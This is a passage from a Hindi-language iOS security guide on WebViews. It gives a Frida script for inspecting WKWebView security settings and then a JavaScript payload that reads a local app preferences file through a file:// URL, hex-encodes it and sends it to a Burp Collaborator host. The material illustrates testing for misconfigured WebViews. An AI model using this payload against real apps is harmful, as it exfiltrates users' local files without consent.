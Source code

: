 सुरक्षा सेटिंग्स के लिए **WKWebView** कॉन्फ़िगरेशन की जांच करने के लिए एक Frida स्क्रिप्ट उदाहरण प्रदान किया गया है:
```bash
ObjC.choose(ObjC.classes['WKWebView'], {
onMatch: function (wk) {
console.log('onMatch: ', wk);
console.log('URL: ', wk.URL().toString());
console.log('javaScriptEnabled: ', wk.configuration().preferences().javaScriptEnabled());
console.log('allowFileAccessFromFileURLs: ',
wk.configuration().preferences().valueForKey_('allowFileAccessFromFileURLs').toString());
console.log('hasOnlySecureContent: ', wk.hasOnlySecureContent().toString());
console.log('allowUniversalAccessFromFileURLs: ',
wk.configuration().valueForKey_('allowUniversalAccessFromFileURLs').toString());
},
onComplete: function () {
console.log('done for WKWebView!');
}
});
```
अंत में, स्थानीय फ़ाइलों को निकालने के लिए लक्षित एक JavaScript पेलोड का उदाहरण अनुचित रूप से कॉन्फ़िगर किए गए WebViews से संबंधित संभावित सुरक्षा जोखिम को दर्शाता है। यह पेलोड फ़ाइल सामग्री को सर्वर पर भेजने से पहले हेक्स प्रारूप में एन्कोड करता है, जो WebView कार्यान्वयन में कठोर सुरक्षा उपायों के महत्व को उजागर करता है।
```javascript
String.prototype.hexEncode = function () {
var hex, i
var result = ""
for (i = 0; i < this.length; i++) {
hex = this.charCodeAt(i).toString(16)
result += ("000" + hex).slice(-4)
}
return result
}

var xhr = new XMLHttpRequest()
xhr.onreadystatechange = function () {
if (xhr.readyState == XMLHttpRequest.DONE) {
var xhr2 = new XMLHttpRequest()
xhr2.open(
"GET",
"http://187e2gd0zxunzmb5vlowsz4j1a70vp.burpcollaborator.net/" +
xhr.responseText.hexEncode(),
true
)
xhr2.send(null)
}
}
xhr.open(
"GET",
"file:///var/mobile/Containers/Data/Application/ED4E0AD8-F7F7-4078-93CC-C350465048A5/Library/Preferences/com.authenticationfailure.WheresMyBrowser.plist",
true
)
xhr.send(null)
```
## Native Methods Exposed Through WebViews
